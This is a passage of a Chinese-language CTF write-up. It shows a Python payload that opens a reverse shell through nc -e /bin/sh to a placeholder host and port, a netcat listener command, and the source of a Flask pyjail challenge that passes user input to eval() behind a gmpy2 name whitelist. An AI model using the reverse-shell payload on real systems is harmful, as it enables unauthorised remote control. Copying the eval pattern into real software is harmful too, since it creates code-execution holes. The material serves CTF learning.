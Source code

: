 我们可以使用 `nc 命令`去`反弹shell`

```python
__import__('os').system('nc ip port -e /bin/sh')
```

然后在服务器指定端口进行监听：

```python
nc -lvp 9996
```

![image-20230306164640732](https://s2.loli.net/2023/03/06/rliko2HDWI3Rnzg.png)

我们可以直接在服务器执行命令，查看flag

如图成功得到flag







### 算力升级            

```python
    # !/usr/bin/env python
    # -*-coding:utf-8 -*-
    """
    # File       : app.py
    # Time       ：2022/10/20 15:16
    # Author     ：g4_simon
    # version    ：python 3.9.7
    # Description：算力升级--这其实是一个pyjail题目
    """
    from flask import *
    import os
    import re,gmpy2 
    import json
    #初始化全局变量
    app = Flask(__name__)
    pattern=re.compile(r'\w+')
    @app.route('/', methods=['GET'])
    def index():  
        return render_template('index.html')
    @app.route('/tiesuanzi', methods=['POST'])
    def tiesuanzi():
        code=request.form.get('code')
        for item in pattern.findall(code):#从code里把单词拿出来
            if not re.match(r'\d+$',item):#如果不是数字
                if item not in dir(gmpy2):#逐个和gmpy2库里的函数名比较
                   return jsonify({"result":1,"msg":f"你想干什么？{item}不是有效的函数"})
        try:
            result=eval(code)
            return jsonify({"result":0,"msg":f"计算成功，答案是{result}"})
        except:
            return jsonify({"result":1,"msg":f"没有执行成功，请检查你的输入。"})
    @app.route('/source', methods=['GET'])
    def source():  
        return render_template('source.html')
    if __name__ == '__main__':
        app.run(host='0.0.0.0',port=80,debug=False)
```
